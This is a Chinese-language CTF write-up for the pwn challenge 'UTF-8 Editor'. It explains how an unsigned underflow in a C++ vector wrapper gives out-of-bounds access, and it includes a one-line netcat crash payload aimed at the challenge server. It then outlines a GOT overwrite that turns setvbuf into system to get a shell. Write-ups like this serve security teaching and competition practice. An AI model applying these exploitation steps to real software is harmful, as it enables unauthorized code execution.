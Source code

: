 # UTF-8 Editor

* Category: Pwn

Shell

* Score: 400/400
* Solves: 2/286

Crash

* Score: 100/100
* Solves: 9/286
* Score(MFCTF): 250/250
* Solves(MFCTF): 1/124

## Description

A simple UTF-8 editor written in C++, nothing can go wrong right?

## Overview

這題是個 C++ Linux x64 的程式。程式一開始可以輸入一個 UTF-8 的字串，然後它會 decode 後以 codepoint 為單位儲存字串，支援 print 單獨的 codepoint 或是編輯 codepoint 等等的操作。

## Solution

### Crash

首先要先找到題目的 bug 在哪才能讓它 crash，但是大致掃過去是不容易看出哪裡有問題的，向是輸入 index 的地方都有經過 bound checking 等等。

```c++
class utf8_string {
   public:
	std::vector<uint32_t> data;  // UTF-8 codepoints
	friend std::istream &operator>>(std::istream &is, utf8_string &obj);
	friend std::ostream &operator<<(std::ostream &os, utf8_string &obj);

   public:
	size_t length() { return data.size() - 1; }
	uint32_t &operator[](int i) { return data[i]; }
};
```

這題的關鍵在於 `length()` 的實作，因為 `data.size()` 是 unsigned int，`0-1` 後會直接 underflow 變很大的數字，而 `main` 中的 `idx` 是 signed int 所以能導致 bound checking 直接失效得到 OOB read/write。

雖然 `operator>>` 函數一般會在讀完字串後 `push_back(0)`，但只要 parse utf8 失敗就能讓它直接 return，導致 `data.size() == 0` 然後就有前面的 OOB。

一個最簡單就能讓它 crash 的 payload 如下:

```bash
echo -n '\xff\n3\n0\n' | nc chals1.ais3.org 6003
```

> 如果使用了中文 Windows，然後在 powershell 或是 cmd 環境底下使用 `nc` 連線時直接輸入中文有可能可以直接拿到 Crash Flag，因為它大概是直接傳 Big5...

### Shell

下一步是要怎麼利用 `std::vector` 的 OOB 去拿 shell，首先得知道 `std::vector` 在 OOB 的時候到底是存取了什麼東西，這部分可以寫個簡單的 C++ 來驗證:

```c++
#include <vector>
#include <stdio.h>
using namespace std;

int main(){
    vector<int> v;
    printf("%u %p %p\n", v.capacity(),&v[0], v.data());
    vector<int> v2({1});
    printf("%u %p %p\n", v2.capacity(), &v2[0], v2.data());
    return 0;
}
```

用 `g++` 編譯後執行的輸出是:

```
0 (nil) (nil)
1 0x5578b8a7c2c0 0x5578b8a7c2c0
```

所以可知當它還沒有 allocate 東西時的 base address 是 `0`。再來 `checksec` 檢查一下:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

所以一個明顯的打法是透過修改 GOT 拿 shell。而這題的 GOT table 在 IDA 中是長這樣:

```
.got.plt:0000000000406000 ; ===========================================================================
.got.plt:0000000000406000
.got.plt:0000000000406000 ; Segment type: Pure data
.got.plt:0000000000406000 ; Segment permissions: Read/Write
.got.plt:0000000000406000 _got_plt        segment qword public 'DATA' use64
.got.plt:0000000000406000                 assume cs:_got_plt
.got.plt:0000000000406000                 ;org 406000h
.got.plt:0000000000406000 _GLOBAL_OFFSET_TABLE_ dq offset _DYNAMIC
.got.plt:0000000000406008 qword_406008    dq 0                    ; DATA XREF: sub_401020↑r
.got.plt:0000000000406010 qword_406010    dq 0                    ; DATA XREF: sub_401020+6↑r
.got.plt:0000000000406018 off_406018      dq offset setvbuf       ; DATA XREF: _setvbuf↑r
.got.plt:0000000000406020 off_406020      dq offset _ZNSirsERj    ; DATA XREF: std::istream::operator>>(uint &)↑r
.got.plt:0000000000406020                                         ; std::istream::operator>>(uint &)
.got.plt:0000000000406028 off_406028      dq offset _ZSt17__throw_bad_allocv
.got.plt:0000000000406028                                         ; DATA XREF: std::__throw_bad_alloc(void)↑r
.got.plt:0000000000406028                                         ; std::__throw_bad_alloc(void)
.got.plt:0000000000406030 off_406030      dq offset __cxa_begin_catch
.got.plt:0000000000406030                                         ; DATA XREF: ___cxa_begin_catch↑r
.got.plt:0000000000406038 off_406038      dq offset _ZNKSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEE5c_strEv
.got.plt:0000000000406038                                         ; DATA XREF: std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::c_str(void)↑r
.got.plt:0000000000406038                                         ; std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::c_str(void)
.got.plt:0000000000406040 off_406040      dq offset _ZSt20__throw_length_errorPKc
.got.plt:0000000000406040                                         ; DATA XREF: std::__throw_length_error(char const*)↑r
.got.plt:0000000000406040                                         ; std::__throw_length_error(char const*)
.got.plt:0000000000406048 off_406048      dq offset _ZNSirsERi    ; DATA XREF: std::istream::operator>>(int &)↑r
.got.plt:0000000000406048                                         ; std::istream::operator>>(int &)
.got.plt:0000000000406050 off_406050      dq offset _ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEED1Ev
.got.plt:0000000000406050                                         ; DATA XREF: std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string()↑r
.got.plt:0000000000406050                                         ; std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::~basic_string()
.got.plt:0000000000406058 off_406058      dq offset __cxa_atexit  ; DATA XREF: ___cxa_atexit↑r
.got.plt:0000000000406060 off_406060      dq offset _ZStlsISt11char_traitsIcEERSt13basic_ostreamIcT_ES5_PKc
.got.plt:0000000000406060                                         ; DATA XREF: std::operator<<<std::char_traits<char>>(std::ostream &,char const*)↑r
.got.plt:0000000000406060                                         ; std::operator<<<std::char_traits<char>>(std::ostream &,char const*)
.got.plt:0000000000406068 off_406068      dq offset _Znwm         ; DATA XREF: operator new(ulong)↑r
.got.plt:0000000000406068                                         ; operator new(ulong)
.got.plt:0000000000406070 off_406070      dq offset _ZdlPvm       ; DATA XREF: operator delete(void *,ulong)↑r
.got.plt:0000000000406070                                         ; operator delete(void *,ulong)
.got.plt:0000000000406078 off_406078      dq offset _ZNSolsEPFRSoS_E
.got.plt:0000000000406078                                         ; DATA XREF: std::ostream::operator<<(std::ostream & (*)(std::ostream &))↑r
.got.plt:0000000000406078                                         ; std::ostream::operator<<(std::ostream & (*)(std::ostream &))
.got.plt:0000000000406080 off_406080      dq offset _ZStrsIcSt11char_traitsIcESaIcEERSt13basic_istreamIT_T0_ES7_RNSt7__cxx1112basic_stringIS4_S5_T1_EE
.got.plt:0000000000406080                                         ; DATA XREF: std::operator>><char>(std::istream &,std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>> &)↑r
.got.plt:0000000000406080                                         ; std::operator>><char>(std::istream &,std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>> &)
.got.plt:0000000000406088 off_406088      dq offset _ZNSolsEj     ; DATA XREF: std::ostream::operator<<(uint)↑r
.got.plt:0000000000406088                                         ; std::ostream::operator<<(uint)
.got.plt:0000000000406090 off_406090      dq offset _ZNSt7__cxx1112basic_stringIcSt11char_traitsIcESaIcEEC1Ev
.got.plt:0000000000406090                                         ; DATA XREF: std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::basic_string(void)↑r
.got.plt:0000000000406090                                         ; std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::basic_string(void)
.got.plt:0000000000406098 off_406098      dq offset __cxa_rethrow ; DATA XREF: ___cxa_rethrow↑r
.got.plt:00000000004060A0 off_4060A0      dq offset _ZNSt8ios_base4InitC1Ev
.got.plt:00000000004060A0                                         ; DATA XREF: std::ios_base::Init::Init(void)↑r
.got.plt:00000000004060A0                                         ; std::ios_base::Init::Init(void)
.got.plt:00000000004060A8 off_4060A8      dq offset memmove       ; DATA XREF: _memmove↑r
.got.plt:00000000004060B0 off_4060B0      dq offset __cxa_end_catch
.got.plt:00000000004060B0                                         ; DATA XREF: ___cxa_end_catch↑r
.got.plt:00000000004060B8 off_4060B8      dq offset _Unwind_Resume
.got.plt:00000000004060B8                                         ; DATA XREF: __Unwind_Resume↑r
.got.plt:00000000004060B8 _got_plt        ends
.got.plt:00000000004060B8
```

首先可以很容易的透過 OOB read 從 `setvbuf` 上拿到 libc address，因為是 32 bits 所以要讀兩次才行。一個直接的做法是寫 one gadget，但我在這題的 docker 環境中找不到一個能夠正常使用的 one gadget，所以只好放棄這條路。

> PS: 不過 Kia 有找到其他方法弄 one gadget，看來我還是太嫩了==

我想的做法是利用 `main` 最一開始執行的函數是 `setvbuf(stdin, 0LL, 2, 0LL);`，因為 `stdin` 是個在 bss 的 pointer，指向 libc 中的 stdin FILE，所以只要把那個 points 改寫為指向 libc 中的 `/bin/sh` 字串，同時把 `setvbuf` 變成 `system` 之後下次回到 `main` 就能拿 shell 了。

下個步驟是要找方法把程式弄回 `main`，但是因為此時的 GOT 中很多的函數都已經不再是指向 plt 了，在只能寫 32 bits 的情況下又沒辦法一次把 libc 或是 libstdc++ 的函數變回 `main`，只寫一半的 pointer 又會直接 segfault。

解法是仔細觀察原本的程式可知 `std::cout << str[idx] << std::endl;` 只出現在選項 `3`，它呼叫的是 `cout << uint32_t` (`_ZNSolsEj`) 也只在這邊出現而已。所以以它作為改寫目標就能在兩次 write 之間確保寫一半的 pointer 不會被 call 到。

把 `_ZNSolsEj` 寫回 main 之後選 `3` 之後就能拿 shell 了。

整個詳細的流程可以參考 [solve.py](solve.py)。
